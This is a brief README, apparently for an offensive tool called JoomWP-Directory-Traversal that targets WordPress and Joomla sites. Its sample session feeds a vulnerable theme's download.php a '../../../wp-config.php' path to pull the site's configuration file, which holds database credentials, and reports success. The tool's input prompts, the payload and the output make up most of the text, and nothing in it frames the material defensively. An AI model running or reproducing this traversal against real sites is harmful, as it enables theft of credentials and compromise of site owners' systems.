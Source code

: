 # JoomWP-Directory-Traversal

Wordpress And Joomla Directory-Traversal With Config File

Exmaple : http://site.com/wp-content/themes/nimblex/download.php?file=
Enter Address : http://site.com/wp-content/themes/nimblex/download.php?file=

Enter type :
1 = Joomla
2 = Wordpress

Enter Type Attack :2
http://site.com/wp-content/themes/nimblex/download.php?file=../../../wp-config.php
Success


